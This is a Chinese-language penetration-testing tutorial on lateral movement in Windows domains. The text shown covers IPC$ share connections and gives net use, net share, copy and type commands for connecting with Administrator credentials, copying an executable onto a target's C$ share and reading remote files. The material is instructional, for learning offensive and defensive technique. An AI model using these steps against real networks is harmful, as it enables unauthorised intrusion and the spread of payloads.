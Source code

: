 
## 内网渗透之横向移动基础总结（一）

这篇文章介绍内网渗透种的横向移动。

在内网渗透中，当攻击者获取到内网某台机器的控制权后，会以被攻陷的主机为跳板，通过收集域内凭证等各种方法，访问域内其他机器，进一步扩大资产范围。通过此类手段，攻击者最终可能获得域控制器的访问权限，甚至完全控制基于 Windows 操作系统的整个内网环境，控制域环境下的全部机器。

[![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559484.png)](https://storage.tttang.com/media/attachment/2023/05/09/60d71934-7596-466c-8683-54c061df8749.png)

# [横向移动中的文件传输](#toc_)

### [通过文件共享-IPC](#toc_-ipc)

执行 net share 命令，可以获得 Windows 默认开启的网络共享，其中 C$为 C 盘共享，ADMIN$为系统目录共享，还有一个 IPC$共享。

[![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559512.png)](https://storage.tttang.com/media/attachment/2023/05/09/9d3c3d99-df3f-4d5b-ab37-3a0dc15b8cd6.png)

IPC（Internet Process Connection）是共享”命令管道”的资源，为了让进程间通信而开放的命令管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

实战中往往会建立 IPC$连接，因为通过 IPC$连接，不仅可以进行所有文件共享操作，还可以实现其他远程管理操作，如列出远程主机进程、在远程主机上创建计划任务或服务等。  
**建立 IPC$连接需要具备以下两个条件：**

**①远程主机开启了 IPC 连接**

**②远程主机的 139 端口和 445 端口开放**

```bash
# IPC$ 连接
net use \\192.168.1.131\ipc$                    # 建立空连接
net use \\192.168.1.131\ipc$ "password" /user:"Administrator"   # 建立非空连接

# IPC$ 使用
net use                               # 查看本机建立的连接 (本机连接其他机器)
net session                           # 查看本机建立的连接 (其他机器连接的本机)，需要 administrator 用户执行
net share                             # 查看本地开启的共享
net share ipc$                        # 开启 ipc$共享
net share ipc$ /del                   # 删除 ipc$共享
net share admin$ /del                 # 删除 admin$共享
net share c$ /del                     # 删除 C 盘共享
net use * /del                        # 删除所有连接

# IPC$ 连接建立之后的操作
dir \\192.168.1.131\c$                              # 列出目标文件目录
copy C:\\Users\Administrator\Desktop\whatever.exe \\192.168.1.131\c$\aaa # 将文件复制到目标 C 盘 aaa 目录下
type \\192.168.1.131\c$\1.txt       # 查看目标 C 盘下 1.txt 文件内容
net use h: \\192.168.52.138\c$              # 磁盘映射，将目标的 C 盘映射到本地的 H 盘
net use h: /del                                             # 删除磁盘映射
```

#### [建立 IPC 常见的错误代码](#toc_ipc)

